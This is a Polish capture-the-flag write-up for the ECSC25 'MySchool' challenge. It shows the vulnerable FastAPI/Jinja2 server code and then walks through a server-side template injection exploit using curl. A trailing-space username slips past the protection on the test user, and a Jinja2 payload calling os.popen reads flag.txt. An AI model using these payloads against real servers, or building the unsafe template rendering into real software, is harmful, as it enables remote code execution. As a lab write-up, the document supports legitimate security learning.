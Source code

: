 # MySchool

Zadanie podaje nam kod źródłowy serwera `app.py`:
```python
import uuid

import uvicorn
from dataclasses import dataclass
from typing import Optional
from fastapi import Response, Request, FastAPI, HTTPException
from jinja2 import Template
import mysql.connector


cnx_pool = mysql.connector.pooling.MySQLConnectionPool(
    host="mysql",
    port=3306,
    user="user",
    password="user",
    database="db",
    pool_size=32,
    pool_name="pool",
    use_pure=True,
)


@dataclass
class User:
    username: Optional[str] = uuid.uuid4()
    bio: Optional[str] = "default bio"


app = FastAPI()


@app.middleware("http")
async def get_db_connection(request: Request, call_next):
    response = Response("Internal server error", status_code=500)
    request.state.db = cnx_pool.get_connection()
    try:
        response = await call_next(request)
    finally:
        request.state.db.close()
    return response


@app.post("/users/")
def create_user(request: Request, user: User):
    if user.username != "test":
        cursor = request.state.db.cursor()
        session_id = uuid.uuid4()
        cursor.execute(
            "insert into users (username, bio,session_id) values (%s,%s,%s)",
            [user.username, user.bio, str(session_id)],
        )
        request.state.db.commit()
        return session_id
    else:
        raise HTTPException(status_code=403, detail="Can't modify the test user!")


@app.get("/users/")
def get_users(request: Request, session_id: Optional[str] = None):
    cursor = request.state.db.cursor()
    query = "select username, bio, (username='test') as matched from users where (session_id is NULL or session_id=%s)"
    cursor.execute(query, [session_id])
    found = [
        f"Welcome {username}, {bio}!"
        for (username, bio, matched) in cursor
        if matched != False
    ]
    return Template("\n".join(found)).render()


@app.get("/")
def index():
    return "You can't connect to this API with your browser. Check the source code."


if __name__ == "__main__":
    uvicorn.run(app)
```
oraz `schema.sql`
```sql
DROP TABLE IF EXISTS `users`;

CREATE TABLE `users` (
  `id` int(9) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(100),
  `bio` varchar(255),
  `session_id` varchar(100),
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=3 DEFAULT CHARSET=ASCII;

INSERT INTO `users` (`id`, `username`, `bio`) VALUES (1, 'test', 'test bio');
```
Oraz adres: `https://myschool.ecsc25.hack.cert.pl/`

# Testowanie
Z kodu źródłowego wyczytujemy że endpoint `/` do niczego nie służy, a `/users/` przyjmuje requesty `POST` i `GET`, więc wyślijmy po jednym:
### Request `GET`
```bash
stigs@stigsec:~$ curl -X GET https://myschool.ecsc25.hack.cert.pl/users/
"Welcome test, test bio!"
```
### Request `POST`
```bash
stigs@stigsec:~$ curl -X POST https://myschool.ecsc25.hack.cert.pl/users/ -H "Content-Type: application/json" -d '{"username":"x","bio":"x"}'
"f49f2734-a2db-4ae3-8d5d-8a4c9a21b6ae"
```
Po wysłaniu `POST` do /users/ z wypełnionym `username` i `bio` otrzymaliśmy `session_id` który możemy użyć aby otrzymać informacje z bazy danych:
```bash
stigs@stigsec:~$ curl -X GET https://myschool.ecsc25.hack.cert.pl/users/?session_id=f49f2734-a2db-4ae3-8d5d-8a4c9a21b6ae
"Welcome test, test bio!"
```
Jak widać `username` i `bio` to dalej 'test' a nie 'x' jak wpisałem. Dzieje się tak dlatego że backend wyświetla tylko uzytkownika o nazwie `test`, pomijając wszystko inne. Zawdzięczamy to warunkowi w kodzie który filtruje wyniki i pokazuje tylko rekordy gdzie `username='test'`. Nasz nowo dodany rekord trafia do bazy danych, ale nie jest widoczny w odpowiedzi na nasz request `GET` mimo podania prawidłowego `session_id`
## SSTI (Server-Side Template Injection)
Backend renderuje `bio` użytkownika `test` za pomocą `return Template("\n".join(found)).render()`, więc jeśli zmienimy `bio` użytkownika `test` to może dojść to SSTI.
# Exploitacja
Z kodu widać że nie można edytować `bio` uzytkownika `test`, ale warunek sprawdzający nazwę porównuje ją **bez przycinania spacji**. Dzięki temu kiedy stworzymy użytkownika `test `(spacja na końcu) to ominiemy zabezpieczenie, a `bio` z payloadem `{{7*7}}` zostanie wyrenderowane.
```bash
stigs@stigsec:~$ curl -X POST https://myschool.ecsc25.hack.cert.pl/users/ -H "Content-Type: application/json" -d '{"username":"test ","bio":"{{7*7}}"}'
"4cc2c6f4-2ae3-40f1-81fc-ef6a8998172c"
```
Następnie robimy request `GET` z podanym `session_id`
```bash
stigs@stigsec:~$ curl -X GET https://myschool.ecsc25.hack.cert.pl/users/?session_id=4cc2c6f4-2ae3-40f1-81fc-ef6a8998172c
"Welcome test, test bio!\nWelcome test , 49!"
```
Jak widać payloadm został wyrenderowany, więc zdobycie flagi to kwestia doboru payloadu który odczyta flagę z `flag.txt`:
```bash
stigs@stigsec:~$ curl -X POST https://myschool.ecsc25.hack.cert.pl/users/ \
  -H "Content-Type: application/json" \
  -d "{\"username\": \"test \", \"bio\": \"{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}\"}"
"4e2d184e-5159-45cb-bb6d-b5c6682d71dc"
```
Teraz request `GET` z tym `session_id` i mamy flagę!
```bash
stigs@stigsec:~$ curl -X GET https://myschool.ecsc25.hack.cert.pl/users/?session_id=4e2d184e-5159-45cb-bb6d-b5c6682d71dc
"Welcome test, test bio!\nWelcome test , ecsc25{NULL_is_not_always_False}!"s
```

